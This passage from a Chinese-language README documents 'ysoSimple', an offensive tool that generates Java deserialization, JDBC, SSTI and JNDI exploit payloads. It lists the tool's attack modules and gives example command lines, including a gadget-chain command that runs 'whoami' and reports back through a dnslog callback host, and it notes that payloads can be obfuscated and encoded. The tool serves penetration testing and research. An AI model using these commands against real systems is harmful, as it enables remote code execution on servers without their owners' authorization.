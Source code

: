 * ReadFile：读文件
* detectCustomCollations：触发Java反序列化，测试步骤和上面一样
* ServerStatusDiffInterceptor：触发Java反序列化，测试步骤和上面一样

# 0x02 简单使用

## a.支持的模块

目前ysoSimple集成7种漏洞利用模块：

1. Java原生反序列化：YsoAttack
2. Hessian反序列化：HessianAttack
3. XStram反序列化：XStramAttack
3. SnakeYaml反序列化：SnakeYamlAttack
4. Shiro550反序列化：YsoAttack
5. JSF反序列化：YsoAttack
4. JdbcAttack模块：JdbcAttack
5. SSTI模板注入：SSTIAttack
6. JNDI服务器：JNDIAttack
7. 字节码生成模块：ThirdPartyAttack

YsoSimple用-m或者-mode参数选择要使用的模块，例如：

```bash
java -jar ysoSimple.jar -m YsoAttack
```

除JNDIAttack外其余模块都需要俩个必要参数-g(-gadget)和-a(-args)，-gadget指定生成的利用链。-args指定该利用链的漏洞利用效果，例如：

```bash
java -jar ysoSimple.jar -m YsoAttack -g CommonsBeanutils2 -a "Templateslmpl:dnslog:whoami.dnslog.cn"
```

每个模块除-g(-gadget)和-a(-args)俩个参数之外每个模块还有额外的参数，这些参数用于对利用链进行修饰(压缩/混淆/编码/存文件)。在[ysoSimple-wiki](ysoSimple-Wiki.md)的模块介绍中都会详细说明。

JNDIAttack模块启动

```bash
java -jar ysoSimple.jar -m JNDIAttack
```

## b.help命令

使用help命令然后跟着模块名会有简单的使用方式说明，结合文档来看会更好。

```bash
java -jar ysoSimple.jar -help YsoAttack
```

## c.详细使用

具体的使用方式见[ysoSimple-wiki](ysoSimple-Wiki.md)文档

